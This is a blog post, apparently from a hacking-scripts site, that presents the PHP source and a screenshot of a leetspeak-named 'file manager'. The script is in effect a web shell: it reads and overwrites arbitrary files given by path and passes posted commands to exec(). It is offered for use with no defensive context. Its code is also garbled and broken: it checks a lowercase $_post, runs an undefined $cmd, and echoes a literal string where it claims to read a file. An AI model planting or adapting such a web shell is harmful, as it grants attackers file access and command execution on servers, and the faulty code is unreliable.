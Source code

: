 ```yaml
---
id: 311
title: Fi73 M4n4g3r script
author: admin
layout: post
guid: http://hackingscripts.com/?p=311
permalink: /fi73-m4n4g3r-script/
categories:
  - PHP
tags:
  - file manager
  - PHP
---
```

Fi73 M4n4g3r script


### Fi73 M4n4g3r script source code

{% highlight php linenos %}<?php
$file = $error = $file_content = "";
if(isset($_POST["file"]) and (isset($_POST["modify"]))){

	$file = $_POST["file"];
	if(! file_exists("$file")) 
	{
		$error = "File $file doesnt exist!";
	}
	else
	{
		$file_content = "&lt;&lt;&lt;_END";
		echo "&lt;PRE&gt;";
		echo "file_get_contents($file)";
		echo "&lt;/PRE&gt;";
		_END;
	}
}
if(isset($_POST["file"]) and (isset($_POST["modify"])))
{
	$file = $_POST["file"];
	$text = $file_content = $_POST["modify"];
	$fh = fopen("$file" , "r+");
	if(! fwrite($fh , $text))
	{
		$error = "File $file couldnt be overwritten!";
	}
	else $error = "file $file successfully overwritten!";
	fclose($fh);
}
if(isset($_post["cmd"]))
{
	exec($cmd, $output, $status);
	if($status) echo "command failed!";
	else
	{
		echo "&lt;pre&gt;";
	foreach ($output as $line) echo "$line \n";
	}
}
echo &lt;&lt;&lt;_END
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;File manager&lt;/TITLE&gt;
&lt;/HEAD&gt;
&lt;BODY&gt;
&lt;CENTER&gt;&lt;H3&gt;Fi73 M4n4g3r&lt;/H3&gt;&lt;/CENTER&gt; 
$error &lt;BR /&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;input type = "text" name = "file" /&gt;
&lt;input type = "submit" value = "Get File"/&gt;
&lt;/form&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;textarea name = "modify" wrap = "off" cols = "15" rows = "20"&gt;
$file_content &lt;/textarea&gt;
&lt;input type = "hidden" name = "file" value = "$file" /&gt;
&lt;input type = "submit" value ="save changes" /&gt;
&lt;/form&gt;
&lt;form method ="post" action = "modifier.php"&gt;
&lt;input type = "text" name = "cmd" /&gt;
&lt;input type = "submit" value = "execute command"/&gt;
&lt;/form&gt;
&lt;/CENTER&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
_END;
?>
{% endhighlight %}

A screenshot of this very plain and boring looking script:<figure id="attachment_390" style="width: 537px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png" alt="Fi73 M4n4g3r screenshot" width="537" height="557" class="size-full wp-image-390" />][1]<figcaption class="wp-caption-text">Fi73 M4n4g3r screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png